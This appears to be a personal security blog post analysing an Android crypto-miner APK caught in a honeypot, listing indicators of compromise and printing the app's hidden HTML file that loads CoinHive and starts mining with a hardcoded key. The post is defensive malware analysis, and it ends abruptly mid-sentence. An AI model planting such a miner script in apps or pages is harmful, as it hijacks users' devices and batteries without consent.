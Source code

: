 ```yaml
---
slug: fishing-for-malware-2
title: "Fishing for Malware — Part Two: Android Crypto Miner"
authors: [sid]
keywords: ['sid', 'lacy', 'blog', 'website', 'cybersecurity', 'security', 'computer', 'honeypot', 'malware', 'tech', 'network']
tags: [analysis, projects]
description: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
summary: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
date: 2022-01-23
draft: false
---
```


## Information

### Indicators of Compromise

 - MD5: `8844985fcd57b0311d1d4cb2ec13a1ef`
 - SHA-1: `a0c07fe897515e5575a72f94f9dea8c077a410ff`
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Connected domain: `coinhive.com`
 - Unexpected high utilization of Android device resources

 ### File
 - Magic: APK archive
 - Language: Java
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the heading and package name imply, this is a crypto miner developed for Android devices. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file.

## Source

### Extraction

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.png  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.png  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.png  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.png  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar with. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

## Personal Thoughts

This is a very small application and doesn't perform any particularly special operations; in fact, I debated including it in this series. More interesting that the malware itself to me, however, is the platform it targets.

In the context of cryptocurrency mining, Android devices are not particularly powerful, and therefore not as lucrative as most other computing machines. It would take a vast, vast array of Adnoird smartphjoneas and tablets to 
---

Sid Lacy  
[Email](mailto:contact@swlacy.com?subject=Hello!) • [LinkedIn](https://www.linkedin.com/in/lacysw/) • [GitHub](https://github.com/lacysw)